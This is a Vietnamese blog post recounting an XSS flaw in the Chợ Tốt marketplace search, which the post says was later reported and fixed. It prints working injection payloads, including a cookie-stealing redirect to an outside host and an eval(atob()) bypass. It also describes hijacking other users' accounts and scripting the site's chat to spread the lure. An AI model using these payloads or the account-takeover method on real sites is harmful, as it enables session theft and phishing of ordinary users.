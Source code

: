 ```yaml
---
layout: post
title: Tôi đã hack Chợ Tốt như thế nào
thumbnail: hack-cho-tot.jpg
category: Chuyện lập trình
tags:
 - hoc-hack-co-ban
 - hacking-co-ban
 - cach-tro-thanh-hacker-mu-den
 - day-lam-hacker-tu-a-z
related_posts:
 - title: 
   link: http://laptrinhcuocsong.com/hoc-lam-hacker.html
 - title: 
   link: http://laptrinhcuocsong.com/tong-hop-nhung-kenh-youtube-ma-dan-cong-nghe-nen-theo-doi-phan-2.html
 - title: 
   link: http://laptrinhcuocsong.com/that-vong-su-tro-lai-cua-hiep-hoi-hacker-viet-nam-hva.html
 - title: 
   link: http://laptrinhcuocsong.com/that-vong-su-tro-lai-cua-hiep-hoi-hacker-viet-nam-hva.html
---
```


Hôm nay thử dạo một vòng Chợ Tốt kiếm mấy món hàng cũ, thì phát hiện lỗi XSS, đây là lỗi không mới, cách thức tấn công cũng đơn giản, nhưng nhiều khi cần rất nhiều sáng tạo trong quá trình khai thác.

Thử tìm kiếm với từ khóa "iphone 7" thì thấy như thế này:

![alt text](https://s3-ap-southeast-1.amazonaws.com/kipalog.com/mh0excozyx_c1.png)

Ai chà, url đẹp phết, mình thích url này rồi đấy, search key đã được bỏ dấu và thêm dấu gạch ngang cho hợp chuẩn. Thử thêm một ít html vào thì thế này (ảnh nhỏ các bạn mở ở tab mới để xem nhé)

![alt text](https://s3-ap-southeast-1.amazonaws.com/kipalog.com/xq1tymmaf1_c2.png)

Rất nhiều nơi, search key đã được entities, tuy nhiên vì lý do nào đó, search key trong đoạn javascript này đã không được xử lý.
Vấn đề là, từ khóa nó đang nằm trong string, nên alert không xảy ra hiện tượng gì. 

Cuối cùng mình sửa search key như sau:

```javascript
iphone 7" }; alert("something went wrong"); var a = { "a":"
```

Thì nhận được alert:

![alt text](https://s3-ap-southeast-1.amazonaws.com/kipalog.com/sk8bcvtkaw_c3.png)

Bạn thấy không? Mình muốn nói đến cái search key trên, từ một property của object, nó đã tách thành 2 object, và alert nằm giữa một cách đẹp đẽ và tuyệt vời.

OK, giờ thử redrect đến 1 trang ngoài cùng với cookie của người dùng xem sao, mình thử code này:

```javascript
iphone 7" }; window.location="http://google.com/" + document.cookie; var a = { "a":"
```

![alt text](https://s3-ap-southeast-1.amazonaws.com/kipalog.com/o7l9sidows_c4.png)

Cái lề gì thốn, coder đã cẩn thận bỏ dấu gạch chéo // và phần sau của search key đi, cũng như lọc một số từ đặc biệt trong chuỗi, như vậy là không thể tương tác gì url bên ngoài được? Không, phải nghĩ cách khác. Cuối cùng thì mình đã tìm ra cách hoàn hảo nhất là đây:

```javascript
iphone 7" }; eval(atob("xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx")); var a = { "a":"
```

Với xxxxx là mã hóa base64 của một đoạn code javascript bất kỳ, tức là chúng ta có thể chèn bất kỳ đoạn javascript nào vào Chợ Tốt. Ví dụ sau đây để alert cookie:

```javascript
iphone 7" }; eval(atob("YWxlcnQoIGRvY3VtZW50LmNvb2tpZSk=")); var a = { "a":"
```

Và đây là kết quả:

![alt text](https://s3-ap-southeast-1.amazonaws.com/kipalog.com/t9g7rdgqhh_9.png)

Đã đến bước này, thì các bạn đã biết mình sẽ làm gì tiếp theo rồi phải không? Mình đăng 1 bài viết mua bán với giá rất rẻ, trong đó có kèm link, lấy cookie để vào được tài khoản của những người không may click vào link.

Nhưng không dừng lại ở đó, khi đã vào được tài khoản của vài thành viên khác, mình có thể mở rộng hơn qua chính công cụ chat của Chợ Tốt bằng tokenKey đã lấy được. Viết script tự động chat với nhiều thành viên khác với nội dung bán đồ rất rẻ, và kèm link để câu.

![alt text](https://s3-ap-southeast-1.amazonaws.com/kipalog.com/j5w20u6nil_c6.png)

Tâm lý là khi được chat về sản phẩm đang bán, người dùng rất dễ click vào link, social engineering khá hiệu quả trong trường hợp này.

Hiện tại mình đã report, bên ChoTot đã xác nhận, fix lỗi xong và thông báo lại cho mình

![alt text](https://s3-ap-southeast-1.amazonaws.com/kipalog.com/6uo1x836x9_chotot.png)

